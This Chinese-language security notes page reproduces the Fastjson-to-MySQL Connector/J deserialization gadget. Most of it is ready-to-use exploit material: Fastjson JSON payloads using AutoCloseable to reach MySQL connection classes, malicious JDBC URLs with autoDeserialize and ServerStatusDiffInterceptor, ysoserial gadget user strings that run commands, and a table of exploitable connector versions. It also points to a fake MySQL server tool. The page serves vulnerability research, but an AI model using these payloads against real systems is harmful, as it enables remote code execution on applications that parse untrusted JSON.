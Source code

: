 ## Fastjson MySQL gadget复现



### 漏洞复现



payload：**{ \"name\": { \"@type\": \"java.lang.AutoCloseable\", \"@type\": \"com.mysql.jdbc.JDBC4Connection\", \"hostToConnectTo\": \"127.0.0.1\", \"portToConnectTo\": 3306, \"info\": { \"user\": \"yso_CommonsBeanutils1_calc\", \"password\": \"pass\", \"statementInterceptors\": \"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor\", \"autoDeserialize\": \"true\", \"NUM_HOSTS\": \"1\" }, \"databaseToConnectTo\": \"dbname\", \"url\": \"\" } }**

其中{ \"user\": \"yso_CommonsBeanutils1_calc\"是`yso\_是固定（反序列化）CommonsBeanutils1\_（gadget）calc是命令`

```
        String json2="{ \"name\": { \"@type\": \"java.lang.AutoCloseable\", \"@type\": \"com.mysql.jdbc.JDBC4Connection\", \"hostToConnectTo\": \"127.0.0.1\", \"portToConnectTo\": 3306, \"info\": { \"user\": \"yso_CommonsBeanutils1_calc\", \"password\": \"pass\", \"statementInterceptors\": \"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor\", \"autoDeserialize\": \"true\", \"NUM_HOSTS\": \"1\" }, \"databaseToConnectTo\": \"dbname\", \"url\": \"\" } }";
        
        <dependency>
            <groupId>mysql</groupId>
            <artifactId>mysql-connector-java</artifactId>
            <version>5.1.12</version>
        </dependency>

        
        String json2="{ \"name\": { \"@type\":\"java.lang.AutoCloseable\", \"@type\":\"com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection\", \"proxy\": { \"connectionString\":{ \"url\":\"jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&useSSL=false&user=yso_CommonsBeanutils1_calc\" } } }}";


        <dependency>
            <groupId>mysql</groupId>
            <artifactId>mysql-connector-java</artifactId>
            <version>6.0.2</version>
        </dependency>



```



![image-20211220170706354](https://img.sumsec.me/summersec//6u07er6ec/6u07er6ec.png)





![image-20211220154409962](https://img.sumsec.me/summersec//42u44er42ec/42u44er42ec.png)



----

```json
{
       "@type":"java.lang.AutoCloseable",
       "@type":"com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
       "proxy": {
              "@type":"com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
              "connectionUrl":{
                     "@type":"com.mysql.cj.conf.url.ReplicationConnectionUrl",
                     "masters":[{
                            "host":""
                     }],
                     "slaves":[],
                     "properties":{
                            "host":"127.0.0.1",
                            "user":"yso_CommonsCollections4_calc",
                            "dbname":"dbname",
                            "password":"pass",
                            "queryInterceptors":"com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
                            "autoDeserialize":"true"
                     }
              }
       }
}
```



---

以下是MySQL反序列化漏洞影响的版本，fastjson只能打5.1.11-5.1.48(反序列化链)、6.0.2/6.0.3(反序列化)、8.0.19(反序列化链)（实测）。

### 影响版本

#### ServerStatusDiffInterceptor触发

* **<8.0.20:** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`
* **6.x(属性名不同):** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`
* **5.1.11及以上的5.x版本（包名没有了cj）:**` jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`
* **5.1.10及以下的5.1.X版本：** 同上，但是需要连接后执行查询。
* **5.0.x:** 还没有`ServerStatusDiffInterceptor`这个东西┓( ´∀` )┏

#### detectCustomCollations触发：

* **5.1.41及以上:** 不可用
* **5.1.29-5.1.40:** `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc`
* **5.1.28-5.1.19：** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc`
* **5.1.18以下的5.1.x版本：** 不可用
* **5.0.x版本不可用**



![image-20211220173824621](https://cdn.jsdelivr.net/gh/SummerSec/Images//52u3652ec52u3652ec.png)



----

### 参考

https://www.cnblogs.com/pickmea/p/15157189.html

https://github.com/fnmsd/MySQL_Fake_Server

https://mp.weixin.qq.com/s/BRBcRtsg2PDGeSCbHKc0fg